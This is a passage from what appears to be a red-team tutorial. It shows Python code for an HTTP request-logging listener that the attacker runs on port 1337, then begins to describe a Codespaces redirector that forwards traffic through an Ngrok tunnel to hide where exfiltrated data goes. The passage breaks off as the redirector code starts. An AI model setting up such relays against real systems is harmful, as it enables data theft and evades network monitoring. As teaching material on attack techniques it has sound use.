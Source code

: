             # Send generic response
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b'Request received and logged.')

        def do_GET(self):
            self._log_request('GET')

        def do_POST(self):
            self._log_request('POST')

        def do_PUT(self):
            self._log_request('PUT')

        def do_DELETE(self):
            self._log_request('DELETE')

        def log_message(self, format, *args):
            # Suppress default logging
            return

    def run(port):
        server_address = ('', port)
        httpd = HTTPServer(server_address, RequestLoggerHandler)
        print(f"[*] Starting HTTP server on port {port}")
        httpd.serve_forever()

    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='Simple HTTP Logger Server')
        parser.add_argument('--port', type=int, default=8080, help='Port to listen on')
        args = parser.parse_args()
        run(args.port)

    ```

    Run the http listener code
    ```
    python3 server2.py --port 1337
    ```
    ![](../images/exfil-codespaces/exfil1.png)
    
Next, we’ll deploy a traffic redirector that listens on port 3000 within the Codespaces environment. This redirector will capture all incoming HTTP requests and seamlessly forward them to our Ngrok tunnel endpoint, effectively relaying the traffic to the attacker's local listener. This setup allows us to use Codespaces as an intermediary proxy, masking the true destination of the exfiltrated data.

!!! info "Setting up Traffic Redirector running on 3000 on Github Codespaces"
    ```python 
    import socket
    import threading
